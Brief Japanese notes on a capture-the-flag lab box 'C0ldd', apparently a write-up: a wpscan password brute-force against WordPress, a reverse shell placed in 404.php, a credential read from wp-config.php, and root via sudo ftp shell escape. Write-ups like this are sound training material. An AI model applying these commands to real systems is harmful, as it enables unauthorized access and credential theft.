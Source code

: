 ```yaml
---
title: "C0ldd"
date: 2024-03-16T14:04:24+09:00
draft: false
---
```


### user

- wordpress が動いている
- /hidden
  - C0lld, philip, hugo
- ```wpscan --url http://10.10.233.13 -U C0ldd -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 64```
- ログインすると apperrance が触れるので，404.php にリバースシェルを貼る
- ```cat /var/www/html/wp-config.php```
  - Coldd のパスワードが見える
  - su C0ldd

### root

- ```sudo -l``` で ftp が使える
- ftp -> !/bin/bash
